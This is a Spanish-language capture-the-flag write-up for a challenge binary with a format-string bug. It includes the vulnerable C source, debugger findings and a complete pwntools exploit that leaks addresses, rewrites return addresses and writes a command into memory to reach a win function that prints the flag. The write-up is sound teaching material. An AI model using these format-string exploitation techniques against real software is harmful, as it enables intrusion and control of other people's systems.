 # FSWned

## Analisis

```
checksec --file=main
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   51 Symbols	  No	0		2		main
```

El binario no tiene ninguna propiedad explotable, veamos el codigo fuente, main:

``` C
int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    vuln();
    return 0;
}
```

Llama a vuln() que acepta dos entradas de usuario y tiene una vulnerabilidad de cadena formateada:
``` C
void vuln() {
    char first_name[28];
    char last_name[28];

    void **hint =
        (void **)((char *)__builtin_frame_address(0) + sizeof(void *));

    printf("Enter your first name: ");
    fgets(first_name, sizeof(first_name), stdin);
    first_name[strcspn(first_name, "\n")] = '\0';

    printf("You entered ");
    printf(first_name);
    printf("\n");

    printf("Enter your last name: ");
    fgets(last_name, sizeof(last_name), stdin);
    last_name[strcspn(last_name, "\n")] = '\0';

    printf("You entered ");
    printf(last_name);
    printf("\n");
}
```

```
./main
Enter your first name: %p
You entered 0x7fffb8cb5df0
Enter your last name: %x
You entered b8cb5df0
```

Una introduccion recomendable a esta vulnerabilidad puede encontrarse [aqui](https://axcheron.github.io/exploit-101-format-strings/)

Finalmente tenemos una funcion win que usa `memfd_create` para crear un fichero anonimo en memoria. Luego copia el contenido del arreglo buffer hacia el archivo y lo ejecuta:
``` C
char buffer[152];

void win() {
    int fd = memfd_create("payload", 0);
    if (fd == -1) {
        perror("memfd_create");
        exit(1);
    }
    if (write(fd, buffer, 148) != 148) {
        perror("write");
        exit(1);
    }
    char *const args[] = {NULL};
    char *const envp[] = {NULL};
    fexecve(fd, args, envp);
    perror("fexecve");
    exit(1);
}
```

## Filtrado y calculo de direcciones

Depurando el programa con Radare si colocamos un breakpoint antes del segundo `printf` (*main + 173) de `vuln` encontramos que el elemento en la posicion 23 desde el tope de la pila (recordar que los primeros 5 parametros se extraen de los registros) es la direccion de retorno a main:

![2025-04-18-133359_573x683_scrot](https://github.com/user-attachments/assets/199378f5-890e-43b1-bbad-0e025c0fbd37)

Con la direccion de main y el offset podemos obtener la direccion base del binario:
```
nm main| grep main
                 U __libc_start_main@GLIBC_2.34
000000000000147b T main
```

``` python
from pwn import *

elf = context.binary = ELF("./main")
#context.log_level = 'debug'
io = process('./main')

# Leak base address
io.sendlineafter(b"first name: ", b"%23$p")
io.recvuntil(b"You entered ")
leaks = io.recvline().strip()
base_addr = int(leaks,16) - 0x0000147b
elf.address = base_addr
```

## Obtener entradas infinitas

El 7mo parametro de la funcion (segundo de la pila) contiene la direccion de retorno de vuln (main+58)

![2025-04-18-135144_415x366_scrot](https://github.com/user-attachments/assets/8a00c2d1-bafd-4d75-8ae0-2c1f47ee8512)

Si cambiamos el ultimo byte podemos retornar al inicio de main y volver a llamar a vuln() consiguiendo entradas infinitas:

``` python
# ret2main
main_last_byte = 0x7b
payload = f"%{main_last_byte}c%7$hhn".encode().ljust(16,b"\x00")
io.sendline(payload)
```

## Escribir el shellcode
La funcion `fexecve` bien ejecuta el archivo si este contiene shellcode (assembly), o comandos si este comienza comienza con un shebang (!#).

Con escribir `#!/bin/cat flag.txt` basta para conseguir la bandera

Necesitamos calcular la direccion del buffer y con nuestras entradas infinitas podremos escribir un byte a la vez:
```
nm main| grep buffer
0000000000004040 B buffer
```

```python
# write shellcode
command = b'#!/bin/cat flag.txt'
buffer = elf.address + 0x4040
for i in range(len(command)):
    io.recvuntil(b'first name')

    payload = f"%{main_last_byte}c%7$hhn".encode().ljust(16,b"\x00")
    payload += p64(buffer+i)
    io.sendline(payload)
    payload = b'%' + f"{command[i]}".encode() + b'c'
    payload += b'%10$hhn'
    io.sendline(payload)
```

Usamos la primera entrada para volver a main y especificar la direccion a escribir y la segunda entrada para escribir un byte del comando en el buffer

## Retornar a win

Tal y como retornamos a main, ahora retornaremos a win para ejecutar nuestro codigo:
``` python
# ret2win
io.recvuntil(b'first name: ')
win_bytes = elf.sym.win & 0xFFFF
payload = f"%{win_bytes}c%7$hn".encode()
io.sendline(payload)
io.interactive()
```

## Solucion final
``` python
from pwn import *

elf = context.binary = ELF("./main")
#context.log_level = 'debug'
io = process('./main')

# Leak base address
io.sendlineafter(b"first name: ", b"%23$p")
io.recvuntil(b"You entered ")
leaks = io.recvline().strip()
base_addr = int(leaks,16) - 0x0000147b
elf.address = base_addr

# ret2main
main_last_byte = 0x7b
payload = f"%{main_last_byte}c%7$hhn".encode().ljust(16,b"\x00")
io.sendline(payload)

# write shellcode
command = b'#!/bin/cat flag.txt'
buffer = elf.address + 0x4040
for i in range(len(command)):
    io.recvuntil(b'first name')

    payload = f"%{main_last_byte}c%7$hhn".encode().ljust(16,b"\x00")
    payload += p64(buffer+i)
    io.sendline(payload)
    payload = b'%' + f"{command[i]}".encode() + b'c'
    payload += b'%10$hhn'
    io.sendline(payload)

# ret2win
io.recvuntil(b'first name: ')
win_bytes = elf.sym.win & 0xFFFF
payload = f"%{win_bytes}c%7$hn".encode()
io.sendline(payload)
io.interactive()
```

`Breach{5h0uldv3_l1573n3d_70_7h3_6cc_w4rn1n65}`
